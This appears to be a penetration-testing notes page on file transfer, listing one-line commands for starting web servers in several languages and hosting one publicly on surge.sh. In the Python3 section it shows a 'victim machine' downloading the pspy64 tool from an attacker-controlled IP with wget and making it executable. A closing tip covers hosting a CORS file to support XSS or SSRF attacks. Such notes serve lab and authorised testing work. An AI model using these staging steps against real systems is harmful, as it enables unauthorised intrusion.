 ```yaml
---
description: >-
  File transfer via web server.
title: Local Web Server                 # Add title here
date: 2022-09-05 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Linux - Local Web Server]                     # Change Templates to Writeup
tags: [file transfer, linux web server]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Python3
Via web:

```bash
# On our machine:
python3 -m http.server 8888

# On victim machine:

wget http://10.10.16.5:8888/pspy64
chmod +x pspy64
```

### Python2
```bash 
python -m SimpleHTTPServer 7331
```

### PHP
```bash
php -S 0.0.0.0:8080
```

### Ruby
```bash
ruby -run -e httpd . -p 9000
```

### Busybox
```bash
busybox httpd -f -p 10000
```

### Surge.sh
This is an excellent option to host an Internet exposed web server.
First we need to install surge with npm:
```bash
npm install --global surge
```
Then we need to execute the surge command and provide all the details needed to host our web server.
- File's path, all the files within will be hosted.
- Name of your web server, this will be the subdomain you choose and it must have the surge.sh as domain, if it's already taken it won't work.
```bash
surge             

   Running as shuciran@gmail.com (Student)

        project: /opt/test/
         domain: blue-eyed-harmony.surge.sh
         upload: [====================] 100% eta: 0.0s (1 files, 15 bytes)
            CDN: [====================] 100%
     encryption: *.surge.sh, surge.sh (48 days)
             IP: 138.197.235.123

   Success! - Published to blue-eyed-harmony.surge.sh
```

> If this is the first time, you'll need to provide an e-mail and a password.
{: .prompt-info }

> If you want to exploit XSS, SSRF or any vulnerability from another server you'll need to host a CORS file with content "*" this way you'll allow consumption of resources from external entities.
{: .prompt-tip }